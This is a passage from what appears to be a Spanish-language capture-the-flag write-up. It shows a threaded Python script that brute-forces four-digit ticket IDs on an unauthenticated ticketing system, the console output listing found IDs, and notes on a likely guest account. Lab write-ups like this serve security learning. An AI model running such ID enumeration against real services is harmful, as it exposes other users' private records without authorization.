 ```python
    r = requests.get(BASE_URL.replace("<REPLACE>", f"{i:04d}"))
    if len(r.text) != ERROR_LENGTH:
        log.success(f"[+] Ticket encontrado ID -> {i:04d}")
        return True
    return False

def brute():
    with log.progress("Probando tickets...") as pbar, ThreadPoolExecutor(max_workers=NUM_THREADS) as executor:
        futures = {executor.submit(check_ticket, i): i for i in range(10000)}
        for future in tqdm(futures, desc="Brute-forcing", unit="ticket"):
            if future.result():
                executor.shutdown(wait=False)
                break

if __name__ == "__main__":
    brute()
```

Igualmente no he encontrado ningún ticket extra.
```console
python3 brute.py
[+] Probando tickets...: Done
Brute-forcing:  28%|██████████████▊                                      | 2790/10000 [00:19<00:49, 145.33ticket/s][+] [+] Ticket encontrado ID -> 2792
Brute-forcing:  28%|██████████████▊                                      | 2792/10000 [00:19<00:49, 146.57ticket/s]
[+] [+] Ticket encontrado ID -> 2973
[+] [+] Ticket encontrado ID -> 2984
[+] [+] Ticket encontrado ID -> 4567
[+] [+] Ticket encontrado ID -> 7723
[+] [+] Ticket encontrado ID -> 8345
```

Leyendo los tickets vemos varias cosas interesantes, primero que no se necesita autenticación para utilizar el sistema de Ticketing.
![Write-up Image](images/Screenshot_4.png)

Otro punto interesante es que parece que debe de haber algún usuario invitado según este mensaje para poder poner tickets.
![Write-up Image](images/Screenshot_5.png)
